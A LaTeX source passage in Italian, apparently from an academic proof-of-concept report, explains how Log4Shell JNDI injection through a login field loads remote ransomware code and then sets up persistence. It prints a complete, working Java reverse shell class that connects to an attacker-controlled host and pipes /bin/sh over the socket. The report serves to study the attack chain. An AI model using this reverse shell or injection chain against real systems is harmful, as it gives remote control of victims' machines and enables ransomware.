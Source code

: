 \documentclass[a4paper, 12pt]{article}
\begin{document}
L'attaccante invia al server web il payload generato inserendolo nel campo \verb!username! del form di login.
Apache Log4j, al momento di loggare il nome utente, effettua una richiesta JNDI al server LDAP creato, il quale restituisce il path dell'oggetto Java con il codice malevolo.
A questo punto, l'applicazione vulnerabile carica il file remoto ed esegue il codice del ransomware che andrà a cifrare i dati della vittima (\textbf{Data Encrypted for Impact}).

\subsubsection{Installation}
Questa fase è facoltativa ai fini dello sviluppo dell'attacco ransomware, si è comunque deciso di inserirla nel PoC con il fine di mostrare la numerosità di applicazioni a cui si presta Log4Shell.

L’obiettivo dell'attaccante è quello di mantenere l’accesso alla macchina (persistenza), per fare ciò è possibile creare una \textbf{backdoor shell}.
Tramite una ulteriore JNDI Injection si esegue il codice remoto di una classe Java che, collegandosi ad un server malevolo dell'attaccante, apre una reverse shell (\textbf{Command and Scripting Interpreter
}).
Questo exploit permette di ottenere il totale controllo della macchina vittima e può essere usato come base per lanciare ulteriori attacchi.

\begin{figure}
    \centering
    \begin{lstlisting}
    public class ReverseShell {
        public ReverseShell() throws Exception {
            String host = "__ip__";
            int port = Integer.parseInt("__port__");
            String cmd = "/bin/sh";
    
            Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s = new Socket(host, port);
            InputStream pi = p.getInputStream(),
                    pe = p.getErrorStream(),
                    si = s.getInputStream();
            OutputStream po = p.getOutputStream(), so = s.getOutputStream();
    
            while (!s.isClosed()) {
                while (pi.available() > 0) {
                    so.write(pi.read());
                }
    
                while (pe.available() > 0) {
                    so.write(pe.read());
                }
    
                while (si.available() > 0) {
                    po.write(si.read());
                }
    
                so.flush();
                po.flush();
                Thread.sleep(50);
    
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
    
            p.destroy();
            s.close();
        }
    }
\end{lstlisting}
    \caption{Revershe Shell - Codice Java}
    \label{fig:revshell}
\end{figure}
\end{document}
